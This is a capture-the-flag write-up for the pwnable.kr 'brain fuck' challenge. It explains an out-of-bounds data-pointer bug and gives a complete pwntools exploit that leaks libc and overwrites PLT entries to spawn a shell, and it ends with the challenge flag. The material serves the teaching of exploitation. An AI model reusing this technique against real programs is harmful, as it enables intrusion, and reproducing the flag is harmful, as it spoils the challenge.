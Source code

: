 # brain fuck

## Description

brain fuck - 150 pt

>I made a simple brain-fuck language emulation program written in C. <br>
>The [ ] commands are not implemented yet. However the rest functionality seems working fine. <br>
>Find a bug and exploit it to get a shell. <br><br>
>Download : http://pwnable.kr/bin/bf <br>
>Download : http://pwnable.kr/bin/bf_libc.so <br><br>
>Running at : nc pwnable.kr 9001

## Background

### Brainfuck

Brainfuck is a simple programming language that consists of 8 commands. It uses a simple a one-dimensional array, a movable data pointer (initialized to point to the start of the array) and two streams of bytes for input and output.

Here are the viable commands: 

|Character|Meaning|
|---------|-------|
| >| 	Increment the data pointer by one|
|<| 	Decrement the data pointer by one |
|+|Increment the byte at the data pointer by one.|
|-|Decrement the byte at the data pointer by one.|
|.|	Output the byte at the data pointer.|
|,|Accept one byte of input, storing its value in the byte at the data pointer.|

The last two commands are irrelevant to the challenge, but you are welcome to [read](https://en.wikipedia.org/wiki/Brainfuck) about them. 

## Solution

### Installation

Usualy I don't explain how to download and run the challenge, but since running it locally isn't as trivial as usual, this time I will.

after `wget`ing both the binary and the libc, in order to make the binary use the libc from the challenge, and not the one on one's computer, they may use `patchelf`, or `pwninit` (which uses `patchelf`, but does all that work for you 🙃).

### Understanding the binary

Let's take a look at the functionality of the binary, using IDA:

**main.c:**
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int i; // [esp+28h] [ebp-40Ch]
  _BYTE v5[1024]; // [esp+2Ch] [ebp-408h] BYREF
  unsigned int v6; // [esp+42Ch] [ebp-8h]

  v6 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  p = (int)&tape;
  puts("welcome to brainfuck testing system!!");
  puts("type some brainfuck instructions except [ ]");
  memset(v5, 0, sizeof(v5));
  fgets(v5, 1024, stdin);
  for ( i = 0; i < strlen(v5); ++i )
    do_brainfuck((char)v5[i]);
  return 0;
}
```

**do_brainfuck:**
```c
int __cdecl do_brainfuck(char a1)
{
  int result; // eax
  _BYTE *v2; // ebx

  result = a1 - 43;
  switch ( a1 )
  {
    case '+':
      result = p;
      ++*(_BYTE *)p;
      break;
    case ',':
      v2 = (_BYTE *)p;
      result = getchar();
      *v2 = result;
      break;
    case '-':
      result = p;
      --*(_BYTE *)p;
      break;
    case '.':
      result = putchar(*(char *)p);
      break;
    case '<':
      result = --p;
      break;
    case '>':
      result = ++p;
      break;
    case '[':
      result = puts("[ and ] not supported.");
      break;
    default:
      return result;
  }
  return result;
}
```

The program saves the address where `tape`, a lable somewhere in the `bss` section, is - at `p`, another location in the `bss` section. It also creates a local buffer of length 1024 bytes, and prompts the user for 1024 bytes of input - saving them in that buffer.

Then, the program iterates through that buffer and, character by character, it sends them to the `do_brainfuck` function. This function is the heart of the program. It moves around the data pointer `p` over at `tape` and inputs/outputs data there, according to the character it got as input.

Basically, this program is a brainfuck interpreter of some sort.

### Exploit

Let's check the security features:

```bash
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8047000)
RUNPATH:  b'.'
```

The NX bit is set, and there are stack canaries. So, trying any shellcode-based exploits won't work.

Let's take a different approach: as can be seen, there's only partial RELRO - this means that we can change the PLT.

Looking at the binary using IDA's A view, it seems that the `tape` is, in fact, very close to the PLT. 

So let's do the following: 
* move `p` to point at one of the libc functions at the PLT - like `puthcar` for example.
* call the function so it's address will be loaded correctly at the PLT (lazy loading...)
* leak it using the `.` command
* update some addresses at the PLT: 
    * `putchar` --------> `main`
    * `memset` --------> `gets`
    * `fgets` --------> `system`
* call putchar by giving `.`
* give `fgets` `/bin/sh` as input

If you are wondering why should we do these "redirections" - recall the calls to `fgets` and `memset` in `main`:

```c
memset(v5, 0, sizeof(v5));
fgets(v5, 1024, stdin);
```

Both functions give the local buffer as the first arguments. After the changing the PLT, `memset` will call `gets` - which will allow us to write to the buffer `/bin/sh`, and `fgets` will call `system` - which will execute `/bin/sh`.

**Side Note:** When I first attempted this challenge, I tried to leak the address of `memset` instead of `putchar` (not sure why). Anyhow, the exploit didn't work and I spent a couple of hours debugging. Then, I noticed that `memset`'s address was *way* off from the other libc functions - which made me realise it was probably linked from another library. 

### Exploit code

```python
from pwn import *

libc = ELF('./bf_libc.so')
conn = remote('pwnable.kr', 9001)

conn.recvuntil(b'except [ ]\n')

# Send payload
payload = '<' * 0x70 + '.' # p ---> putchar @ PLT, call putchar 
payload += '.>' * 0x4  + '<' * 0x4 # leak the address
payload += ',>' * 0x4 + '<' * 0x4 # change putchar @ PLT
payload += '<' * 0x4 + ',>' * 0x4 + '<' * 0x4 # change memset @ PLT
payload += '<' * 0x1c + ',>' * 0x4 # change fgets @ PLT
payload += '.' # call putchar

conn.sendline(payload.encode())

# Get the address of putchar
conn.recv(1)
putchar_addr = int(conn.recv(4)[::-1].hex(), 16)

# Calculate the address of gets and system
gets_addr = (putchar_addr - libc.symbols['putchar']) + libc.symbols['gets']
system_addr = (putchar_addr - libc.symbols['putchar']) + libc.symbols['system']

# Give input to perform redirections
conn.send(p32(0x08048671)) # putchar ----> main
conn.send(p32(gets_addr)) # memset ----> gets
conn.send(p32(system_addr)) # fgets ----> system

# Input for gets
conn.sendline(b'/bin/sh\x00') 

conn.interactive()
```

```bash
welcome to brainfuck testing system!!
type some brainfuck instructions except [ ]
$ cat flag
BrainFuck? what a weird language..
```